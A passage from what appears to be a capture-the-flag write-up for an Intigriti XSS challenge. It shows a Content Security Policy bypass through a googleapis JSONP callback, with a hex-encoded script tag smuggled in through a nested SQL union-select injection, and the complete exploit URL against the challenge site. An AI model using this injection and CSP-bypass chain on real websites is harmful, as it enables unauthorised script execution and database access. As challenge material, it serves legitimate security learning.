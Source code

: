 <p>• CSP :</p>

<img src="https://raw.githubusercontent.com/kabilan1290/kabilan1290.github.io/master/assets/img/csp.png">

<p>• My first go to is <a href="https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass">https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass</a> ; since i already read about googleapis CSP bypass.</p>

<p>• But unfortunately the callback sites on the googleapis was down.</p>

<p>• Then i found the working endpoint on <a href="https://brutelogic.com.br/blog/csp-bypass-guidelines/">https://brutelogic.com.br/blog/csp-bypass-guidelines/</a></p>

```
<Script Src=https://www.googleapis.com/customsearch/v1?callback=alert(document.domain)></Script>
```

<p>• Now time to frame the query !</p>

```
<script src='https://www.googleapis.com/customsearch/v1?callback=alert(document.domain)'></script>  :  0x3c736372697074207372633d2768747470733a2f2f7777772e676f6f676c65617069732e636f6d2f637573746f6d7365617263682f76313f63616c6c6261636b3d616c65727428646f63756d656e742e646f6d61696e29273e3c2f7363726970743e

1 and 0 union select 1,0x3c736372697074207372633d2768747470733a2f2f7777772e676f6f676c65617069732e636f6d2f637573746f6d7365617263682f76313f63616c6c6261636b3d616c65727428646f63756d656e742e646f6d61696e29273e3c2f7363726970743e,3 -- -  :  0x3120616e64203020756e696f6e2073656c65637420312c3078336337333633373236393730373432303733373236333364323736383734373437303733336132663266373737373737326536373666366636373663363536313730363937333265363336663664326636333735373337343666366437333635363137323633363832663736333133663633363136633663363236313633366233643631366336353732373432383634366636333735366436353665373432653634366636643631363936653239323733653363326637333633373236393730373433652c33202d2d202d

https://challenge-0722.intigriti.io/challenge/challenge.php?month=3%20union%20select%20null,null,null,0x3120616e64203020756e696f6e2073656c65637420312c3078336337333633373236393730373432303733373236333364323736383734373437303733336132663266373737373737326536373666366636373663363536313730363937333265363336663664326636333735373337343666366437333635363137323633363832663736333133663633363136633663363236313633366233643631366336353732373432383634366636333735366436353665373432653634366636643631363936653239323733653363326637333633373236393730373433652c33202d2d202d,null%20from%20post--%20-#
```

<p>• Now pasting the url on the browser window !</p>

<img src="https://raw.githubusercontent.com/kabilan1290/kabilan1290.github.io/master/assets/img/popup.png">

<p>• Thats really a cute popup ! shoutout to intigriti and vroemy for the awesome challenge!</p>
